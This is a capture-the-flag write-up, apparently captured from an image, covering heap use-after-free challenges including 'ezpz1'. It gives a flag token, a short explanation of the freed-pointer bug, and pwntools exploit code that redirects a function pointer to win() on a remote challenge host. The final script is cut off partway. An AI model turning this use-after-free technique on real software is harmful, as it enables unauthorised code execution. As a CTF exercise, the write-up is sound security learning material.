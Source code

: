 ```python
edit("1", p32(heap + 8))

make("3", "abcdef")
make("4", "asdas")
make("5", b"Gd" + "\x00\x00" + win)

hint("4")

p.interactive()

p.close()

```


ezpz1
==========================================================
Flag:
----------------------------------------------------------
    FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyNy1lenB6MSIsImlwIjoiMTAxLjE2NC4zMy4yMTkiLCJzZXNzaW9uIjoiZDQ0MTk3NTAtZjRhMi00MzRkLTgzY2YtNzk5ZGMyMWJmOGJlIn0.VLWA8CPJlCywtgQtp670XopDsi-XDA9IXnGamf7nZQE}

General overview:
----------------------------------------------------------
1. The functions don't check whether a question has been freed yet, so you can have two questions pointing to the same memory location.
2. By writing to the location after it has been freed, you can overwrite the question pointer to point to win()

Script used:
----------------------------------------------------------

```python
#!/usr/bin/env python2

from pwn import *

global p

def _create():
    p.sendlineafter("): ", "c")

def _delete(id):
    p.sendlineafter("): ", "d")
    p.sendlineafter("id: ", id)

def _set(id, question):
    p.sendlineafter("): ", "s")
    p.sendlineafter("id: ", id)
    p.sendlineafter("question: ", question)

def _ask(id):
    p.sendlineafter("): ", "a")
    p.sendlineafter("id: ", id)

p = remote("plsdonthaq.me", 7001)

win = p32(0x08048a5c)

# Create a question and delete it
_create()
_delete("0")

# Create another question, it will have the same location as the previous question
# So the "question" will overwrite the address for print_question()
```